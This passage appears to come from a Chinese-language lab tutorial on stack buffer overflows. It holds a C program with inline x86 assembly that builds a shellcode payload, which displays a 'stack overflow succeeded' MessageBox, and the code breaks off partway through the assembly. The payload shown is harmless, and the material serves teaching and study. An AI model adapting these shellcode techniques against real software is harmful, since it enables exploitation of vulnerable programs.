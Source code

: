 可以再次直接打印出字节码（需要把项目设置成**release模式**，`asm()`函数内容中也应仅有汇编代码，不能有多部分）

```c
#include <stdio.h>
#include <windows.h>

/*
	CreateShellcode.c 功能：生成shellcode执行体指令码
	作者：jlcss

	生成shellcode执行体，其功能是弹出MessageBox对话框，在单击对话框“确定”按钮后程序自动退出
	MessageBox参数：　窗体句柄 0，显示文本 ^o^..堆栈成功溢出!，标题　堆栈成功溢出!，风格 0
	熟读代码及注释，在本实验的实验报告中绘制出堆栈在函数调用前后的分布状态
*/


//	加载user32.dll
int Load_user32_library()
{
	HINSTANCE h; 
	char dllname[12];
	strcpy(dllname, "user32");

	h = GetModuleHandleA(dllname); 
	if(h == NULL) 
	{ 
		h = LoadLibraryA(dllname); 
		if(h == NULL) 
		{ 
			printf("加载user32失败"); 
			return -1; 
		} 
	} 

	return 0;
}

int asm()
{
// 仅保留汇编代码，去除其它
	__asm
	{
		push ebp;		// 保护当前基址寄存器状态，基址指针入栈
		push ecx;		// 保护当前ecx寄存器状态，ecx指针入栈
		mov ebp, esp	// 改变基址指针，使其指向当前堆栈栈顶
		sub esp, 54h	// 申请54h字节空间，局部变量参数暂存此空间内
		xor ecx,ecx		// 清空ecx寄存器

		// MessageboxA显示内容 ^o^..堆栈成功溢出!
		// 利用UltraEdit等十六进制编辑工具获取显示内容的十六进制数据格式
		mov byte ptr [ebp-14h],5Eh
		mov byte ptr [ebp-13h],6Fh
		mov byte ptr [ebp-12h],5Eh
		mov byte ptr [ebp-11h],2Eh
		mov byte ptr [ebp-10h],02Eh
		mov byte ptr [ebp-0Fh],0B6h
		mov byte ptr [ebp-0Eh],0D1h
		mov byte ptr [ebp-0Dh],0D5h
		mov byte ptr [ebp-0Ch],0BBh
		mov byte ptr [ebp-0Bh],0B3h
		mov byte ptr [ebp-0Ah],0C9h
		mov byte ptr [ebp-09h],0B9h
		mov byte ptr [ebp-08h],0A6h
		mov byte ptr [ebp-07h],0D2h
```